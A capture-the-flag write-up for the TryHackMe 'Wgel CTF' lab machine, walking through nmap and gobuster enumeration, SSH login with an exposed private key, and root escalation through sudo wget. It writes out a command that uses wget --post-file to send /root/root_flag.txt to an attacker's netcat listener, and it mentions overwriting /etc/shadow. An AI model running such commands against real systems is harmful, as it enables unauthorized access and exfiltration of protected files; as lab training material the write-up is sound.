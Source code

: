 ```yaml
---
title: Wgel CTF
date: 2022-08-22 17:00:00 +500
categories: [thm, easy-machines]
tags: []    # TAG names should always be lowercase
---
```




### User Flag

Let's start with a Nmap scan

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.148.177
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

the webpage is an Apache default page after installation, so let's scan for directories with gobuster

```terminal
gobuster dir -u http://10.10.148.177/ -w /usr/share/dirb/wordlists/common.txt
```

meanwhile, I was checking the source code and looks like they've patched a vulnerability CVE-2016-4979, and we may have a potential username

```
 <!-- Jessie don't forget to udate the webiste -->
```

Gobuster scan ended:

```
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.148.177/sitemap/]
```

and looks like this is the real site, so let's scan for directories again.

```terminal
gobuster dir -u http://10.10.148.177/sitemap -w /usr/share/dirb/wordlists/common.txt
```

```
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.148.177/sitemap/.ssh/]
/css                  (Status: 301) [Size: 320] [--> http://10.10.148.177/sitemap/css/]
/fonts                (Status: 301) [Size: 322] [--> http://10.10.148.177/sitemap/fonts/]
/images               (Status: 301) [Size: 323] [--> http://10.10.148.177/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 319] [--> http://10.10.148.177/sitemap/js/]
```

.ssh directory looks super strange, if we navigate into it, its the whole rsa private key!, so I copied it over to my pc and try to crack the passphrase with john, but it didn't have one, so I tried to connect to the ssh service trying jessie username.
(other directories doesn't seem to have anything useful)

```terminal
ssh -i hashb4john jessie@10.10.148.177
```

and it worked!

if we go through the users folders we will find the user flag

>

### Root Flag

Let's start with sudo -l to list what things we can run as sudo (if any).
And we have one wget, the first thing I do is head over to gtfobins and see if we have a way to escalate privileges, but no one worked for me, so i googled a way to escalate privileges with wget sudo permissions and found [this guide](https://vk9-sec.com/wget-privilege-escalation/) which use wget to display the /etc/shadow file, then overwrite it with its own password, but I could get wget to list me the shadow file. So I took the easy way and tried to display the content of the root flag, by logic I had the format of the flag if it was the same as the user flag it'll be root_flag.txt and it would be on the root directory.

You need to set up a listener on your machine first on port 80

```terminal
nc -lvnp 80
```

and then on the remote machine

```terminal
sudo /usr/bin/wget --post-file=/root/root_flag.txt [your IP]
```

and this will give us the root flag

>
